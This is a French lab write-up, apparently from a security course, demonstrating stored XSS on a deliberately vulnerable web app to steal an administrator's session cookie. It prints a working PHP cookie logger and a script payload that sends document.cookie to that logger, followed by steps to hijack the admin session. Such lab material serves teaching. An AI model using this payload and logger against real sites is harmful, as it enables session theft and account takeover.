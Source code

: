 # Vulnérabilité

Cet article illuse une attaque XSS sur le site web vulnérable sti.

Objectif : Voler le cookie de l'administrateur

Méthode : Envoyer un  message contenant un script xss dans le sujet. Celui-ci va faire une requête GET avec la valeur des cookies  renvoyant vers un site web malveillant qui va récupérer le cookie



## Infrastructure

- Fichier `steal.php` pour voler les cookies

```php
<?php
$COOKIE_NAME = "cookie";
if(isset($_GET[$COOKIE_NAME])){
        $cookie = $_GET[$COOKIE_NAME];
        $steal = fopen("log.txt", "a");
        fwrite($steal, $cookie ."\n");
        fclose($steal);
}
?>
```



- Script javascript malveillant

```javascript
<script type="text/javascript">
  document.location = "http://localhost/sti/steal.php?cookie=" + document.cookie ;
</script>
```



## Attaque

- Envoyer le message à notre cible, ici l'utilisateur `admin`

![xss-message](./assets/xss-cookie/xss-message.PNG)

L'utilisateur `admin`losqu'il clique sur sa boite de réception va déclencher l' effet du script malveillant : celui-cieffectue une requête GET vers le site malveillant avec la valeur du cookie dans les paramètre Get.

L'attaquant n'a plus qu'à afficher son fichier log.txt pour obtenir le cookie de session

![log-cookie](./assets/xss-cookie/log-cookie.PNG)

## Vérification 

On peut ensuite remplacer notre cookie de session par la valeur de celui récupéré dans les logs.

![change-cookie](./assets/xss-cookie/change-cookie.PNG)

En constate en rafraichissant la page que l'onglet `Administration` est apparue

![result](./assets/xss-cookie/result.PNG)

## Sources 

https://github.com/kensworth/cookie-stealer

